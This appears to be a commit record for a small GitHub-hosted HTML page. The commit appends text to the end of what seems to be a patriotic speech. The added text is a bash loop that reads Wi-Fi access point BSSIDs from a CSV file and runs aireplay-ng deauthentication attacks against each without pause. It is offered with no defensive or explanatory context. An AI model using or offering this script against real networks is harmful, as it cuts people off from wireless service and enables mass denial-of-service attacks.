

Before and after one commit to AYMBotBuildersOfficial/pub, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -32,3 +32,10 @@ In conclusion, let's reaffirm our dedication to safeguarding our nation. Togethe
 
 Thank you.
 </b>
+
+
+<p>while IFS=, read -r bssid; do
+  aireplay-ng --deauth 0 -a "$bssid" wlan0mon &
+done < deauth_targets.csv
+wait
+</p>
```
